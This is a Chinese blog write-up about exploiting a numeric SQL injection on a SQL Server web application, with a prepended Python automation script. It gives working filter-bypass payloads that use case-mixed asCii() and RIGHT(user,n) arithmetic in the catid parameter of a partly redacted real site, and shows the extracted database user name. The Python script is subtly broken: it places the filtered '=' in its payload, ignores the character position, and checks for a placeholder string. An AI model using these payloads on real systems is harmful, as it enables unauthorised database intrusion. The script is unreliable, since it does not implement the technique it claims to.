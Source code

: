 # 

 记录 一次 SQL Server 数字型注入-绕过 ' , or , and , like , > , < , = 过滤 根据作者思路编写的python脚本

```python
import requests

def calculate_ascii_value(base_url, catid, target_value):
    """
    尝试计算并找到与目标值匹配的 ASCII 字符。
    
    :param base_url: 漏洞 URL 的基础部分，应包含注入点。
    :param catid: 用于构造 payload 的 catid 参数值。
    :param target_value: 目标值，帮助判断是否成功匹配字符。
    :return: 找到的 ASCII 值，如果没有找到则返回 None。
    """
    for ascii_val in range(32, 127):  # 遍历可打印字符的 ASCII 值范围
        # 构造 payload，将 catid 与 ASCII 值进行计算
        payload = f"{catid} + 1 - {ascii_val} = {target_value}"
        
        try:
            # 发送 HTTP 请求并将 payload 作为查询参数
            response = requests.get(f"{base_url}?id={payload}")
            
            # 检查响应中是否包含预期的提示符
            if "expected response indicator" in response.text:
                return ascii_val
        except requests.RequestException as e:
            # 捕捉请求异常，打印错误信息
            print(f"Request failed: {e}")

    return None  # 如果未找到匹配的 ASCII 值，则返回 None


def find_current_user(base_url):
    """
    通过 ASCII 数字型注入来查找当前用户的名称。
    
    :param base_url: 漏洞 URL 的基础部分，应包含注入点。
    """
    ascii_user_name = []  # 用于存储找到的 ASCII 字符
    for i in range(1, 20):  # 假设用户名不会超过 20 个字符
        target_value = 8 + i  # 选择合适的目标值用于匹配
        
        # 调用 calculate_ascii_value 函数找到当前目标值对应的 ASCII 字符
        ascii_val = calculate_ascii_value(base_url, 8, target_value)
        
        if ascii_val is not None:
            # 将找到的 ASCII 值转换为字符并添加到用户名列表
            ascii_user_name.append(chr(ascii_val))
        else:
            # 如果未找到更多的字符，则停止循环
            break
    
    # 拼接所有找到的字符以形成完整的用户名
    user_name = ''.join(ascii_user_name)
    print(f"Identified User Name: {user_name}")


if __name__ == "__main__":
    # 替换为实际的漏洞 URL
    base_url = "http://example.com/vulnerable_endpoint"
    # 查找当前用户名称
    find_current_user(base_url)

```



> ref:[一次 SQL Server 数字型注入-绕过 &#39; , or , and , like , &gt; , &lt; , = 过滤 · 语雀](https://www.yuque.com/pmiaowu/hcy2bz/zi2muq)

作者：P喵喵

0x01 前言  

注入点是 sql server数字型注入  
   
过滤了  ' , or ,  and , like , > , < , =   还有所有函数  
   
函数的话，可以使用  大小写绕过  
例如：  asCii()  这样即可绕过  
   
因为没有  '  所以也不能使用字符串来匹配数据了  
并且因为有WAF所以不能使用   or and      
所以要闭合代码的话，只能通过 +, -, *, /  这四个玩意来闭合代码了。  
   
整个注入的难点就是如何在闭合的时候如何保证可以正常布尔出数据  

难点虽然是难点但是还是有办法解决的  

0x02 解决方法  

因为不能使用英文匹配数据，所以我使用的方法是：  

先定一个自己认为 为真得数据  
例如，我得目标 catid=8 的时候，会输出文章得标题，那么我就认为这个就是为真  

接着吧数据通过 ascii函数 转换成 数字  
最后把 catid 每次加1 然后减去ascii函数返回的数据  
如果加到 catid-ascii函数返回的数据 = 8 的时候就说明注入成功了  

0x03 实战例子  

为了我得狗命，域名修改为 https://xxx.test.cn  

注入url：https://xxx.test.cn/weixin/zsw/list.aspx?catid=8  
注入参数：catid  

Sql server 数据库  
跑的 user 前两位 = 110, 99 =  nc  

0x03.1 正常得情况下  

正常的情况下  ![](./assets/2024-09-10-14-55-54-image.png)

0x03.2 User 第一位数据  

User 第一位数据  
Payload：https://xxx.test.cn/weixin/zsw/list.aspx?catid=118-(asCii(RIGHT(user,1)))  ![](./assets/2024-09-10-14-56-11-image.png)![](./assets/2024-09-10-14-56-22-image.png)

有数据的 id 是 8      
所以 118-8=110      
user 第一位 = ascii 110  = 十进制 n  

0x03.3 User 第二位数据  

User 第二位数据  
Payload：https://xxx.test.cn/weixin/zsw/list.aspx?catid=107-(asCii(RIGHT(user,2)))  ![](./assets/2024-09-10-14-56-40-image.png)

![](./assets/2024-09-10-14-56-52-image.png)

有数据的 id 是 8      
所以 107-8=99  
user 第二位 = ascii  99   = 十进制 c



